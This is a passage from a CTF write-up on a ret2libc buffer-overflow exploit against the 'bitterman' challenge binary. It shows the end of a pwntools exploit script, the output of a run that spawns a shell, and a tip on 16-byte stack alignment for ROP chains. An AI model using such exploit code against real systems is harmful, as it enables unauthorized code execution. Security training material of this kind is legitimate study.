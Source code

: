 ```asm
p.recvuntil("message:")
p.sendline("1024")
p.recvuntil("text:")
p.sendline(payload)
p.recvuntil("Thanks!")


p.interactive()
```

**This will spawn a shell and hence you learned how to do a ret2libc attack**.
In a nutshell, we used the leak address to find the offset and hence using the gadget we overwrite the instruction pointer while calling the `system` and `/bin/sh` hence spawning a shell.

```asm

robin@oracle:~/ROP$ python exploit2.py
[+] Starting local process './bitterman': pid 12562
[*] '/home/robin/ROP-Emporium/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Leaked puts: ��3\x84�\x00
[*] Switching to interactive mode

$ id
uid=1000(robin)

```

# Final Words

Thanks to [@Lord_Idiot](https://twitter.com/__lord_idiot) for helping me out with the stack alignment issue.

##### The MOVAPS issue

***
If you're using Ubuntu 18.04 and segfaulting on a movaps instruction in buffered_vfprintf() or do_system() in the 64 bit challenges then ensure the stack is 16 byte aligned before returning to GLIBC functions such as printf() and system(). The version of GLIBC packaged with Ubuntu 18.04 uses movaps instructions to move data onto the stack in some functions. The 64 bit calling convention requires the stack to be 16 byte aligned before a call instruction but this is easily violated during ROP chain execution, causing all further calls from that function to be made with a misaligned stack. movaps triggers a general protection fault when operating on unaligned data, so try padding your ROP chain with an extra ret before returning into a function or return further into a function to skip a push instruction.
***

That was it. Until then, **pwn**.

##### Files

Bitterman: <https://github.com/ctfs/write-ups-2015/raw/master/camp-ctf-2015/pwn/bitterman-300/bitterman>


